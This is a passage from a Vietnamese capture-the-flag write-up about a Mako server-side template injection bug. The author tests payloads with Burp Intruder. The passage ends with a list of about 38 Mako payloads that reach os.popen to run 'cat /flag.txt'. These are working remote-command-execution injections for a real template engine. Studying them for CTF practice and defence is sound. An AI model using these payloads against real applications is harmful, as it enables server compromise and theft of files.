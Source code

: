 ```
	return generate_render(converted_fonts=converted_fonts)


```

- Nhìn cái là biết luôn dính SSTI của template mako nha.


- Bây giờ thì thử [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#mako), flag nằm ở `/flag.txt` nhá.

- Dùng intruder check:

![image](https://hackmd.io/_uploads/SJrkN3A1A.png)


- Mình loay hoay khá lâu vì bình thường để nguyên thì kết quả đều là 0 hết chắc cho sever detect system hoặc là không có quyền chạy os :>, sau đó gpt thì tìm xem có cách khác để đọc file từ popen của os module.

![image](https://hackmd.io/_uploads/B1qoPh0JA.png)

- giờ mình thử xem có được không.
- ![image](https://hackmd.io/_uploads/rkdlA2CJR.png)


- Hehe có vẻ như nó không detect gì cả nên mình nhận được flag.

```
${self.module.cache.util.os.popen("cat /flag.txt").read()}
${self.module.runtime.util.os.popen("cat /flag.txt").read()}
${self.template.module.cache.util.os.popen("cat /flag.txt").read()}
${self.module.cache.compat.inspect.os.popen("cat /flag.txt").read()}
${self.__init__.__globals__['util'].os.popen("cat /flag.txt").read()}
${self.template.module.runtime.util.os.popen("cat /flag.txt").read()}
${self.module.filters.compat.inspect.os.popen("cat /flag.txt").read()}
${self.module.runtime.compat.inspect.os.popen("cat /flag.txt").read()}
${self.module.runtime.exceptions.util.os.popen("cat /flag.txt").read()}
${self.template.__init__.__globals__['os'].popen("cat /flag.txt").read()}
${self.module.cache.util.compat.inspect.os.popen("cat /flag.txt").read()}
${self.module.runtime.util.compat.inspect.os.popen("cat /flag.txt").read()}
${self.template._mmarker.module.cache.util.os.popen("cat /flag.txt").read()}
${self.template.module.cache.compat.inspect.os.popen("cat /flag.txt").read()}
${self.module.cache.compat.inspect.linecache.os.popen("cat /flag.txt").read()}
${self.template._mmarker.module.runtime.util.os.popen("cat /flag.txt").read()}
${self.attr._NSAttr__parent.module.cache.util.os.popen("cat /flag.txt").read()}
${self.template.module.filters.compat.inspect.os.popen("cat /flag.txt").read()}
${self.template.module.runtime.compat.inspect.os.popen("cat /flag.txt").read()}
${self.module.filters.compat.inspect.linecache.os.popen("cat /flag.txt").read()}
${self.module.runtime.compat.inspect.linecache.os.popen("cat /flag.txt").read()}
${self.template.module.runtime.exceptions.util.os.popen("cat /flag.txt").read()}
${self.attr._NSAttr__parent.module.runtime.util.os.popen("cat /flag.txt").read()}
${self.context._with_template.module.cache.util.os.popen("cat /flag.txt").read()}
${self.module.runtime.exceptions.compat.inspect.os.popen("cat /flag.txt").read()}
${self.template.module.cache.util.compat.inspect.os.popen("cat /flag.txt").read()}
${self.context._with_template.module.runtime.util.os.popen("cat /flag.txt").read()}
${self.module.cache.util.compat.inspect.linecache.os.popen("cat /flag.txt").read()}
${self.template.module.runtime.util.compat.inspect.os.popen("cat /flag.txt").read()}
${self.module.runtime.util.compat.inspect.linecache.os.popen("cat /flag.txt").read()}
${self.module.runtime.exceptions.traceback.linecache.os.popen("cat /flag.txt").read()}
${self.module.runtime.exceptions.util.compat.inspect.os.popen("cat /flag.txt").read()}
${self.template._mmarker.module.cache.compat.inspect.os.popen("cat /flag.txt").read()}
${self.template.module.cache.compat.inspect.linecache.os.popen("cat /flag.txt").read()}
${self.attr._NSAttr__parent.template.module.cache.util.os.popen("cat /flag.txt").read()}
${self.template._mmarker.module.filters.compat.inspect.os.popen("cat /flag.txt").read()}
${self.template._mmarker.module.runtime.compat.inspect.os.popen("cat /flag.txt").read()}
${self.attr._NSAttr__parent.module.cache.compat.inspect.os.popen("cat /flag.txt").read()}
```